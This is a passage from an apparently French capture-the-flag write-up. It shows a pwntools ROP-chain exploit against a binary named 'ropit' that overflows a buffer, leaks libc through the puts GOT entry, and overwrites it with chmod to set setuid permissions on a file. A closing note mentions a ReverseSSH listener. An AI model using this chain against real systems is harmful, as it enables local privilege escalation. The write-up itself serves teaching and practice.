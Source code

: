 ```python
# J'avais trouvé ces gadgets avec ROPgadget mais c'est plus compréhensible comme ça
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI_R15 = (ROP_LOADED.find_gadget(['pop rsi', 'pop r15', 'ret']))[0]

PUTS_GOT = ELF_LOADED.got['puts']
FILENAME = 0x4006fd  # chaine, ici "zR", trouvée dans le binaire

log.info("puts plt: " + hex(PUTS_PLT))
log.info("puts got: " + hex(PUTS_GOT))
log.info("gets plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("pop rsi; pop r15; ret  gadget: " + hex(POP_RSI_R15))

rop = b"A" * 1032
rop += p64(POP_RDI)       # première instruction exécutée, flow hijack
rop += p64(PUTS_GOT)      # l'adresse de puts est un argument
rop += p64(PUTS_PLT)      # puts est appellé pour afficher sa propre adresse
rop += p64(POP_RDI)       # on reprend le contrôle de l'exécution
rop += p64(PUTS_GOT)      # l'adresse de puts sert d'argument
rop += p64(GETS_PLT)      # on appel gets pour écraser l'adresse de puts, le programme bloque ici
rop += p64(POP_RSI_R15)   # on reprend le contrôle de l'exécution, puts.plt pointe désormais sur chmod
rop += p64(0o6755)        # Valeur octale d'un u+srwx g+srx o+rx 
rop += p64(0xdeadbeef)    # nevermind, ça va dans R15 because le gadget utilisé
rop += p64(POP_RDI)       # on reprend le contrôle de l'exécution
rop += p64(FILENAME)      # "zR" qui sert de filename
rop += p64(PUTS_PLT)      # on appelle puts qui est maintenant chmod

log.info(f"Size of ROP: {len(rop)}")

print(P.recv().decode().strip())  # Bannière
# envoi de notre ROP chain qui sera exécutée en deux temps
P.sendline(rop)

# ici on récupère l'adresse leakée
puts_libc = P.recvline().strip()[:8]
puts_libc = u64(puts_libc.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  puts: {hex(puts_libc)}")
LIBC.address = puts_libc - LIBC.symbols["puts"]  # Save LIBC base
log.info("LIBC base @ %s" % hex(LIBC.address))

CHMOD = LIBC.sym["chmod"]
log.info("chmod %s " % hex(CHMOD))
# On envoie l'adresse de chmod, la ROP chain va reprendre son exécution
P.sendline(p64(CHMOD))
```

Je ne suis pas parvenu à faire fonctionne *pwntools* sur le ReverseSSH qui écoutait sur le port 31337 avec l'utilisateur *Boe*. J'ai donc utilisé à la place le vrai serveur SSH avec l'utilisateur *Joxter* mais pour qu'il puisse accéder au binaire *ropit* j'ai du changer auparavant les permissions sur */home/Boe*.  
